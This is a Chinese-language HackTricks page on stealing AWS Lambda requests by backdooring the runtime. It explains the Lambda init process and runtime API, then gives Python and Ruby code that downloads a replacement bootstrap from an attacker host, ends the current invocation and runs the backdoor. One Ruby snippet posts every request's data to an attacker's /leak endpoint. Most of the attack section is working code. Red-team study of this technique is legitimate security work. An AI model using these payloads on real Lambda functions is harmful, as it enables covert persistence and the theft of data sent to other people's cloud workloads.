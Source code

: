 # AWS - 窃取Lambda请求

<details>

<summary><strong>从零到英雄学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 简介 <a href="#python-runtime" id="python-runtime"></a>

这种攻击假设您对正在运行的Lambda有某种**访问权限**。\
另外，重要的一点是**Lambda调用并不是完全隔离的，但它们是被隔离的**。它们可以在同一个执行环境中运行，尽管不是同时。了解这一点，让我们开始解剖那个环境。

### 隔离

Lambda隔离使用以下cgroups：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

由于前缀'sandbox'没有匹配任何常见的容器引擎（docker, podman, LXD, rkt），它可能是一个专有的容器引擎，可能在内部使用像[runC](https://github.com/opencontainers/runc)这样的开源容器运行时。

### Lambdas的工作原理  <a href="#python-runtime" id="python-runtime"></a>

这似乎是python Lambda架构：

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. 一个位于容器外部的进程，被称为init二进制文件中的“**slicer**”，通过共享内存向**init**进程发送调用事件。
2. init进程在端口9001（硬编码）上设置了一个HTTP服务器，暴露了几个端点：
   1. /2018-06-01/runtime/invocation/**next** – 获取下一个调用事件
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – 返回调用的处理器响应
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – 返回执行错误
3. 在`bootstrap.py`中，以下循环**查询init进程以获取新事件**，然后**调用用户的函数**来处理它（这里，您上传的请求处理器运行）。\


<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. 然后通过以下端点之一将**处理器响应发送回init进程**：
   1. `/{invoke-id}/response` – 如果用户处理器成功执行
   2. `/{invoke-id}/error` – 如果在处理调用期间引发了异常

## 技术总结 <a href="#python-runtime" id="python-runtime"></a>

有可能用恶意代码**替换bootstrap脚本**，以便能够**截获**发送到Lambda函数的数据。\
注意**其他语言中的其他引擎**也有用那种语言编写的另一个**bootstrap脚本**，所以这也可以在使用其他语言的**其他lambdas**中完成，不仅仅是在python中。

## Python <a href="#python-runtime" id="python-runtime"></a>

从lambda下载**`/var/runtime/bootstrap.py`**（或者只是启动**您自己的lambda**并获取它），并添加后门，它将泄露发送到Lambda的所有数据。您只需要添加几行代码，例如：

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### 替换运行时

现在，创建了新的**`boostrap.py`**，可以**下载**它，**结束当前lambda** **调用**并运行它以**替换**合法的一个：
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
您也可以使用 [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py)，它将像之前一样结束调用，运行新的 bootstrap 并泄露信息。

{% hint style="warning" %}
如果一个 lambda 函数在 5-15 分钟内没有被使用，它将被关闭，下次调用时所有更改都将丢失。
{% endhint %}

## Ruby 运行时 <a href="#ruby-runtime" id="ruby-runtime"></a>

在 ruby 中，您想要后门的文件是 **`/var/runtime/lib/runtime.rb`** 文件（从系统中获取或运行您自己的 lambda）。

添加后门就像在 python 版本中一样简单：
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
接着，您只需按照您在python版本中所做的操作进行一些更改：

* **在一个目录中下载后门**
* **符号链接** `/var/runtime/lib/*` 到后门所在的目录
* 结束当前的lambda调用
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## 参考资料

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

其他支持HackTricks的方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
